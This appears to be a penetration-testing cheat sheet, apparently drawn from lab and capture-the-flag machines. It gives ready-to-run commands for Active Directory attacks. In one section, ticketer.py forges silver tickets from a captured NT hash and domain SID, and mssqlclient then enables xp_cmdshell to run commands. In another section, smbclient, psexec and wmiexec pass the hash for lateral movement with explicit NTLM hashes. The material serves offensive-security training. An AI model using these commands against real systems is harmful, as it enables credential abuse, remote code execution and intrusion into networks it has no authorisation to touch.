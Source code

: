 ```bash
ticketer.py -nthash  -domain-sid -domain -spn TotesLegit/dc.sequel.htb administrator
ticketer.py -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid 'S-1-5-21-1969309164-1513403977-1686805993' -domain $dom -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
KRB5CCNAME=administrator.ccache mssqlclient.py  -k administrator@dc.sequel.htb
KRB5CCNAME=Administrator.ccache mssqlclient.py  -k Administrator@nagoya.nagoya-industries.com
> enable_xp_cmdshell
> xp_cmdshell whoami
```

You may need to create a /etc/krb5user.conf file.

```bash
┌──(kali㉿kali)-[~/practice/nagoya]
└─$ cat /etc/krb5user.conf
[libdefaults]
        default_realm = NAGOYA-INDUSTRIES.COM
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        NAGOYA-INDUSTRIES.COM = {
                kdc = nagoya.nagoya-industries.com
        }

[domain_realm]
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```

We should have the ticket ready to use in memory. We can confirm this with klist, and by using the service:

```bash
PS C:\Tools> iwr -UseDefaultCredentials http://web04
```

#### Pass the Hash

First, it requires an SMB connection through the firewall (commonly port 445), and second, the Windows File and Printer Sharing feature to be enabled. These requirements are common in internal enterprise environments. This lateral movement technique also requires the admin share called ADMIN$ to be available. To establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.

```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname